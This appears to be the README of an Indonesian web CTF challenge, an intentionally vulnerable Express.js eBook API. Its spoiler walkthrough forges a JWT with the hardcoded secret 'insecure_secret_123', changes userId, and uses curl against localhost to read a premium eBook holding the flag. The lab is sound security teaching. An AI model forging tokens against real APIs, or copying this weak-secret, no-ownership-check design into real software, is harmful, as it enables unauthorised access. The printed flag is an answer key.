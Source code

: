 # API eBook Premium - Akses Buku Berbayar via IDOR

> Web CTF Challenge | by [ctflabs-id](https://github.com/ctflabs-id)


---

## 📖 Scenario

Anda adalah pentester yang ditugaskan mengaudit API layanan eBook premium. Sistem ini menggunakan Express.js dengan autentikasi JWT. Meskipun memerlukan login, terdapat kerentanan dimana user bisa mengakses eBook berbayar milik user lain dengan memodifikasi claim JWT.

---

## 🎯 Challenge Overview
**Target:** `http://api-ebook-premium.local:4000`<br>
**Vulnerability:** Insecure Direct Object Reference (IDOR) via JWT Claim Manipulation<br>
**Objective:** Dapatkan akses ke eBook premium dengan ID 1337 dan ekstrak flag dari kontennya.<br>
**Difficulty:** ⭐⭐⭐☆☆ (Intermediate)

---
## 🛠️ Setup Instructions

Prerequisites:

    Node.js v16+
    MongoDB
    JWT tool (optional)

Langkah-langkah:

  1. Clone repository ini
```bash
git clone https://github.com/ctflabs-id/API-eBook-Premium.git
cd API-eBook-Premium
```
  2. Install dependencies
```bash
npm install express jsonwebtoken mongoose body-parser
```
  3. Pastikan MongoDB Berjalan
  4. Start Server
```bash
node index.js
```
  5. Server akan berjalan di http://localhost:4000

---

## 💡 Hints
    🔑 Dapatkan token JWT valid terlebih dahulu via endpoint /login
    🔍 Gunakan tools seperti jwt.io untuk inspeksi/decode token
    ✏️ Modifikasi claim userId pada JWT untuk mendapatkan akses ke eBook premium
    📌 eBook target memiliki ID 1337
    🚩 Flag ada dalam content eBook premium

---

## 🎓 Tujuan Tantangan Ini
  1. Memahami kerentanan IDOR pada sistem berbasis JWT
  2. Belajar teknik manipulasi claim JWT
  3. Memahami pentingnya validasi kepemilikan resource di server
  4. Praktik eksploitasi authorization flaw pada REST API

---

## ⚠️ Disclaimer

Challenge ini dibuat hanya untuk edukasi dan simulasi keamanan siber. Jangan gunakan teknik serupa terhadap sistem yang tidak kamu miliki atau tidak diizinkan.

---
<details><summary><h2>🏆 Solusi yang Diharapkan - (Spoiler Allert)</h2></summary>

Peserta harus:

1. Langkah 1: Dapatkan Token JWT Awal&#x20;
<img src="./assets/ebook-1.png"></img>
Contoh Response:
```json
{
  "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjEwMDEsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNzE5NDI5NDAwLCJleHAiOjE3MTk0MzMwMDB9.4j5XW7zQl2HJYwLw7QXn2v8m6d9QkZcX6jK7vL1J3Ek"
}
```
2. Langkah 2: Decode Token di jwt.io&#x20;
<img src="./assets/ebook-2.png"></img>
Lihat payload:
```json
{
  "userId": 1001,
  "role": "user",
  "iat": 1719429400,
  "exp": 1719433000
}
```
3. Langkah 3: Modifikasi Token&#x20;
<img src="./assets/ebook-3.png"></img>
Ubah userId dari 1001 menjadi 9999 (pemilik eBook premium)
Gunakan secret key insecure_secret_123 untuk signature baru
Hasilkan token baru, contoh:
```json
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjk5OTksInJvbGUiOiJ1c2VyIiwiaWF0IjoxNzE5NDI5NDAwLCJleHAiOjE3MTk0MzMwMDB9.1qZ3vVJkXoQ2wY8hN7Rt6cTm1x9fKsLp5UqSdW0bO4Y
```

4. Langkah 4: Akses eBook Premium
<img src="./assets/ebook-4.png"></img>
Gunakan token yang sudah dimodifikasi:
```bash
curl http://localhost:4000/api/ebooks/1337 \
  -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjk5OTksInJvbGUiOiJ1c2VyIiwiaWF0IjoxNzE5NDI5NDAwLCJleHAiOjE3MTk0MzMwMDB9.1qZ3vVJkXoQ2wY8hN7Rt6cTm1x9fKsLp5UqSdW0bO4Y"
```
Response Sukses:
```json
{
  "title": "eBook Premium",
  "content": "CTF_FLAG{JWT_IDOR_Pr3v3nt1on_1s_Key}",
  "price": 50000
}
```
</details>

---

## 🤝 Kontribusi Pull request & issue welcome via: ctflabs-id/Perpustakaan-Hantu-CTF
## 🧠 Maintained by:
```
GitHub: @ctflabs-id
Website: ctflabsid.my.id
```



